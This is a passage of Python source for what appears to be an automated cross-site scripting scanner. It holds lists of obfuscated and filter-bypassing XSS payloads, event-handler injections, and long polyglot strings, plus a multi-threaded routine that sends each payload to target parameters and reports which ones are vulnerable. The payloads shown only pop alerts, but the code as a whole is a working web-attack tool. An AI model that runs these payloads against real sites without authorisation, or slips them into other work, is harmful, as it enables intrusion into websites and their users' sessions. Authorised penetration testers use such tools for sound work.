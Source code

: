 ```python
            '<script>window["alert"]("XSS")</script>',
            '<script>window[String.fromCharCode(97,108,101,114,116)]("XSS")</script>',
            '<script>setTimeout("alert(\\"XSS\\")",1)</script>',
            '<script>Function("alert(\\"XSS\\")")()</script>',
            '<script>eval(atob("YWxlcnQoIlhTUyIp"))</script>',  # Base64
            '<script>[].constructor.constructor("alert(\\"XSS\\")")()</script>'
        ]
        bypass_payloads.extend(obfuscated_payloads)
        
        # Alternative tags and attributes
        alternative_payloads = [
            '<svg onload=alert("XSS")>',
            '<img src=x onerror=alert("XSS")>',
            '<iframe src="javascript:alert(\'XSS\')">',
            '<object data="javascript:alert(\'XSS\')">',
            '<embed src="javascript:alert(\'XSS\')">',
            '<form><button formaction="javascript:alert(\'XSS\')">Click</button></form>',
            '<details open ontoggle=alert("XSS")>',
            '<marquee onstart=alert("XSS")>XSS</marquee>'
        ]
        bypass_payloads.extend(alternative_payloads)
        
        return bypass_payloads
    
    def polyglot_payloads(self):
        """Multi-context polyglot XSS payloads"""
        return [
            'jaVasCript:/*-/*`/*\\`/*\'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>',
            '">\'><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>\'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>\'">',
            '\';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">\'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>'
        ]
    
    def comprehensive_xss_test(self, parameter_list):
        """Comprehensive XSS testing across multiple parameters"""
        results = []
        
        def test_parameter(param):
            param_results = []
            
            # Test basic payloads
            for category, payloads in self.payloads.items():
                for payload in payloads:
                    result = self.test_xss_payload(param, payload)
                    if result['vulnerable']:
                        param_results.append(result)
                        print(f"[+] XSS found in {param}: {payload[:50]}...")
            
            # Test polyglot payloads
            for payload in self.polyglot_payloads():
                result = self.test_xss_payload(param, payload)
                if result['vulnerable']:
                    param_results.append(result)
                    print(f"[+] Polyglot XSS found in {param}")
            
            return {param: param_results}
        
        # Multi-threaded testing
```